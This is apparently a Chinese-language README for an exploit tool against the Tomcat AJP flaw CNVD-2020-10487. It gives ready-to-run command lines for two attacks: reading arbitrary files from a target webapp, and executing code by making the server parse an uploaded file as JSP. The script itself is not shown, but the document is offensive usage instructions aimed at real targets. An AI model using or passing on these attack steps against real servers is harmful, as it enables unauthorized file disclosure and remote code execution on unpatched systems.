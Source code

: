 # CNVD-2020-10487-Tomcat-Ajp
Tomcat-Ajp协议漏洞

## 使用

1. 读取指定webapp下的指定文件
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname -p ajp_port target_ip
```

运行示例：
![](./img/read_file.png)

2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
使用方法与读取文件方法类似，只需加上-c 参数即可。
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p ajp_port target_ip -c
```

运行示例：
![](./img/code_execute.png)
